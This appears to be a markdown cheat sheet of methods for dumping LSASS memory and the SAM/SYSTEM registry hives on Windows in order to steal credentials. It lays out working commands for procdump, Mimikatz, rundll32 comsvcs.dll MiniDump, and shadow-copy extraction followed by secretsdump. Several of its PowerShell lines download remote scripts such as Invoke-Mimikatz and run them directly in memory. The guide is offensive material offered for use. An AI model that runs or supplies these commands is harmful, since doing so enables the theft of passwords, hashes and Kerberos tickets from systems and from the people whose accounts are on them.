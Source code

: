 # Methods to Dump LSASS
Craft a comprehensive guide detailing various methods for dumping the LSASS.<br>
I think This will be a valuable one and will make people stay updated on new techniques.
## 1. Procdump:
Procdump is a part of Microsoft Sysinternals and a command-line<br>utility programs for producing dumps of any running process<br>
We can leverage it and use it fo DUMP lsass process by the following:<br>
<code>procdump.exe -ma lsass.exe C:\path\lsass.dmp</code>

## 2. Mimikatz:
Mimikatz can both dump the LSASS process and read from an LSASS dump:<br>
<code>privilege::debug = Debugging Mode
sekurlsa::logonPasswords = Dump passwords
</code>

* To Read from an LSASS dump:<br>
<code>sekurlsa::minidump C:\path\lsass.dmp
sekurlsa::logonpasswords</code>

## 3. Rundll32
This is a native Windows utility method which can we can use:<br>
<code>rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump <LSASS_Process_ID> C:\path</code><br>
for getting lsass process ID, you can RUN "Get-Process lsass" on powershell.
* User can also done this by making a PS script containing the following:<br>
<code>$lsass = Get-Process lsass
$dumpPath = "C:\Users\Adwin2\Desktop\lsass.dmp"
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump $($lsass.Id) $dumpPath full</code><br><br>
<b>Note</b>: Change $dumpPath

## 4. PowerSploit's Out-Minidump:
Ensure the Out-Minidump function is loaded in your PowerShell session<br>
<code>IEX (New-Object Net.WebClient).DownloadString('https://github.com/PowerShellMafia/PowerSploit/raw/master/Exfiltration/Out-Minidump.ps1')"
Get-Process lsass | Out-Minidump -DumpFilePath C:\Path\To\Dump
</code>

#### 4.4 - Using 'MiniDump' to dump lsass into C:\Windows\Tasks:
<code>
IEX (New-Object Net.WebClient).DownloadString('https://github.com/chvancooten/OSEP-Code-Snippets/raw/main/MiniDump/MiniDump.ps1')
Reults will be save on C:\Windows\Tasks.
</code>

##  5. Using Invoke-Mimikatz from the GitHub Repository:
Download & Import the Script:
First, you need to get the Invoke-Mimikatz.ps1 script from the GitHub repository.
If you're working directly on the machine:
<code>IEX (New-Object Net.WebClient).DownloadString('https://github.com/g4uss47/Invoke-Mimikatz/raw/master/Invoke-Mimikatz.ps1')</code><br>

Invoke Mimikatz to Dump LSASS:<br>
Once the module is imported, you can run Invoke-Mimikatz to dump the LSASS</br>

<code>Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonPasswords"'</code><br>
* You can also using minidump module to select where to read:<br>
<code>Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::minidump C:\Path\To\Load\Lsass"'</code>

## 6. SAM/SECURITY [ Windows11 ]
SAM/SECURITY Hives: These contain local account information and system security policies. Dumping from these hives can provide hashed passwords for local accounts and details about security settings. This method requires access to system files either offline or through the system registry.

LSASS Process: LSASS handles both local and domain credentials, managing in-memory credential caches that include plaintext passwords, hashes, and Kerberos tickets. Dumping from LSASS offers a more comprehensive set of credentials, including those of currently logged-in users. This requires administrative access and is performed on a running system.

<code>
Run [ Windows11 ]
$shadow = [WMIClass]"root\cimv2:Win32_ShadowCopy"
$shadow.Create("C:\\", "ClientAccessible")
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[Number]\windows\system32\config\SAM C:\[SAM\To\Be\Saved\]
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy8\windows\system32\config\SYSTEM C:\[SYSTEM\To\Be\Saved\]
python3 /opt/impacket/examples/secretsdump.py -sam Sam -system SYSTEM LOCAL
